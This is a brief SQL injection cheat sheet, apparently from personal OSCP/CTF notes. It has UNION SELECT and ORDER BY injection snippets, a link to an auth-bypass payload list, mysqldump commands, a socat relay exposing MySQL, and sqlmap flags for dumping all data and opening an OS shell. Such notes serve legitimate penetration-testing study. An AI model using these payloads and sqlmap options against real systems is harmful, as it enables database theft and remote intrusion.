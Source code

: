 # sqli basic

## Auth bypass

[iamkashz/ctf-scripts/auth-bypass-sqli.txt](https://github.com/iamkashz/ctf-scripts/blob/main/auth-bypass-sqli.txt)

## Tips

```bash
# when error; available columns = N-1
ORDER BY <N>--

# union [all] select 
UNION [ALL] SELECT 1,2,3,4-- -
UNION [ALL] SELECT NULL,NULL,NULL,NULL-- -
```

## Using mysql-client

```bash
mysql -h <host-ip> [-P PORT]-u <username> -p [-e <SQL-QUERY-TO-RUN>]

mysqldump -u <user> -p <DB-name> > dump.mysql
mysqldump -u <user> -p --all-databases > dump.mysql
```

## sqlite3

```bash
# to invoke SQLite
sqlite3 <db.dump>

# to find tables
sqlite> .tables

# to check schema for table
sqlite> PRAGMA table_info(<table-name>);

# Ctrl+D to break out
```

## Start Mysql on kali

* [remote access mysql](https://linuxize.com/post/mysql-remote-access/)

```bash
service mysql [status | start | stop]

# config file, set bindIP if needed
/etc/mysql/mariadb.conf.d/50-server.cnf

CREATE USER 'kashz'@'%' IDENTIFIED BY 'kashz';
GRANT ALL ON *.* TO 'kashz'@'%' IDENTIFIED BY 'kashz';
FLUSH PRIVILEGES;

# listen on 3306 from tun0 IP and route to 3306 via localhost
$ socat TCP-LISTEN:3306,fork,bind=10.10.16.161 TCP:127.0.0.1:3306
```

## SQLMAP (DO NOT USE IN OSCP)

```bash
# method: POST
# capture request via burp > sql.txt

sqlmap -r <sql.txt> -p <paramter-to-check> <flag> [--proxy=http://127.0.0.1:808]

# --dbms=<mysql> or other.
# --dbs; -D <db>
# --tables; -T <table>
# --dump-all
# --os-shell
```
